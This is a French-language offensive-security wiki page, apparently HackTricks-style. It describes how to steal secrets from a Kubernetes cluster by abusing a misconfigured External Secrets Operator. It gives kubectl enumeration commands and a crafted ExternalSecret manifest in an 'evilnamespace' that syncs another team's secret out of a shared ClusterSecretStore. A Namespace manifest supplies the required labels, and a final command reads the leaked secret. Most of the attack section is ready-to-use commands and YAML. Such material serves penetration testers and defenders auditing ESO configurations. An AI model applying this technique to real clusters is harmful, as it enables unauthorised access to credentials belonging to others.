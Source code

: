 # Opérateur de Secret Externe

**L'auteur original de cette page est** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Cette page donne quelques indications sur la manière dont vous pouvez réussir à voler des secrets à partir d'un ESO mal configuré ou d'une application qui utilise un ESO pour synchroniser ses secrets.

## Avertissement

La technique présentée ci-dessous ne peut fonctionner que lorsque certaines circonstances sont réunies. Par exemple, cela dépend des exigences nécessaires pour permettre à un secret d'être synchronisé dans un espace de noms que vous possédez / compromis. Vous devez le découvrir par vous-même.

## Prérequis

1. Une empreinte dans un cluster kubernetes / openshift avec des privilèges d'administrateur sur un espace de noms
2. Accès en lecture au moins à ExternalSecret au niveau du cluster
3. Découvrez s'il y a des libellés / annotations requis ou une appartenance à un groupe nécessaire qui permet à l'ESO de synchroniser votre secret. Si vous avez de la chance, vous pouvez voler librement tout secret défini.

### Collecte d'informations sur les ClusterSecretStore existants

En supposant que vous avez un utilisateur ayant suffisamment de droits pour lire cette ressource; commencez par lister d'abord les _**ClusterSecretStores**_ existants.
```sh
kubectl get ClusterSecretStore
```
### Énumération des ExternalSecret

Supposons que vous ayez trouvé un ClusterSecretStore nommé _**mystore**_. Continuez en énumérant ses externalsecret associés.
```sh
kubectl get externalsecret -A | grep mystore
```
_Cette ressource est limitée à l'espace de noms, donc à moins que vous ne sachiez déjà dans quel espace de noms chercher, ajoutez l'option -A pour rechercher dans tous les espaces de noms._

Vous devriez obtenir une liste des externalsecrets définis. Supposons que vous ayez trouvé un objet externalsecret appelé _**mysecret**_ défini et utilisé par l'espace de noms _**mynamespace**_. Rassemblez un peu plus d'informations sur le type de secret qu'il contient.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assemblage des pièces

À partir d'ici, vous pouvez obtenir le nom d'un ou de plusieurs noms de secret (comme défini dans la ressource Secret). Vous obtiendrez une sortie similaire à :
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
```md
* Nommez un ClusterSecretStore
* Nom d'un ExternalSecret
* Nom du secret

Maintenant que nous avons tout ce dont nous avons besoin, vous pouvez créer un ExternalSecret (et éventuellement patcher/créer un nouveau Namespace pour vous conformer aux prérequis nécessaires pour synchroniser votre nouveau secret) :
```
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Après quelques minutes, si les conditions de synchronisation sont remplies, vous devriez pouvoir voir le secret divulgué dans votre espace de noms.
```sh
kubectl get secret leaked_secret -o yaml
```
## Références

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
